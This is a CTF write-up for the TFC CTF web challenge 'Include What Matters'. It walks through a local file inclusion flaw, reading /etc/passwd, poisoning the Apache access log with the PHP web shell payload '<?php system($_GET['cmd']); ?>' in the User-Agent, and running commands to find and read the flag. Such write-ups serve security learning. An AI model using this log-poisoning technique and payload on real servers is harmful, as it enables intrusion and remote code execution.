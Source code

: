 # TFC CTF

## WEB

### INCLUDE WHAT MATTERS.

**Difficulty:** Medium

**Statement:** Flag Format : TFCCTF{}
The flag file has a random name and it's in a random location .

***

On the website, we quickly detect an LFI flaw with the include logs:

![image](https://user-images.githubusercontent.com/49941629/182035020-b3665a6b-6605-443d-9a3d-aa965f8073d3.png)

In order to confirm the flaw, I will get the `/etc/passwd` file : `http://01.linux.challenges.ctf.thefewchosen.com:49412/?file=/etc/passwd`

![image](https://user-images.githubusercontent.com/49941629/182035123-5de0a972-4134-4cf0-b90b-4bf17fcb28c0.png)

Now I'm looking to see if we have access to the web server log files to perform a log poisoning attack.

I see that we can read the contents of the file `/var/log/apache2/access.log` : `http://01.linux.challenges.ctf.thefewchosen.com:49412/?file=/var/log/apache2/access.log`

So I will modify my HTTP request to add the PHP payload `<?php system($_GET['cmd']); ?>` in the user agent:

```
GET /?file=/var/log/apache2/access.log HTTP/1.1
Host: 01.linux.challenges.ctf.thefewchosen.com:49412
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 <?php system($_GET['cmd']); ?> Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

Now, I just have to add `&cmd=` as a parameter to my query in order to perform RCE: `http://01.linux.challenges.ctf.thefewchosen.com:49412/?file=/var/log/apache2/access.log&cmd=id`

```
[30/Jul/2022:12:33:33 +0000] "GET /?file=/var/log/apache2/access.log HTTP/1.1" 200 772 "-" "Mozilla/5.0 uid=33(www-data) gid=33(www-data) groups=33(www-data) Safari/537.36"
```

I list the contents of the `/` directory: `http://01.linux.challenges.ctf.thefewchosen.com:49412/?file=/var/log/apache2/access.log&cmd=ls%20/`

`[30/Jul/2022:12:33:33 +0000] "GET /?file=/var/log/apache2/access.log HTTP/1.1" 200 772 "-" "Mozilla/5.0 bin boot dev etc hidden_fl4g.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var Safari/537.36"`

I get the content of the flag : `http://01.linux.challenges.ctf.thefewchosen.com:49412/?file=/var/log/apache2/access.log&cmd=cat%20/hidden_fl4g.txt`

`30/Jul/2022:12:33:33 +0000] "GET /?file=/var/log/apache2/access.log HTTP/1.1" 200 772 "-" "Mozilla/5.0 TFCCTF{LF1_1S_D4NG3R0US_4ND_L34DS_T0_RC3} Safari/537.36"`

Flag: `TFCCTF{LF1_1S_D4NG3R0US_4ND_L34DS_T0_RC3}`
